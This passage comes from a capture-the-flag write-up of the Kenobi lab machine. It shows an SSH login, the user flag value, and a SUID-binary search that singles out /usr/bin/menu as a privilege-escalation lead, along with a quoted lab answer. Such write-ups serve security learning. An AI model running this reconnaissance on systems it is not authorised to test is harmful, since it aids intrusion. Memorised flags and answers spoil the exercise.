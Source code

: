 ```shell-session

Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$
```

And we're in!

We can now get the user flag:
```shell-session
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
```

## Privilege Escalation

Let's search for files with the SUID bit set using our new ssh session:
```shell-session
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

The `/usr/bin/menu` looks like a nice candidate for the next question's answer (spoilers, it is the answer):

> What file looks particularly out of the ordinary? \
> Answer: `/usr/bin/menu`
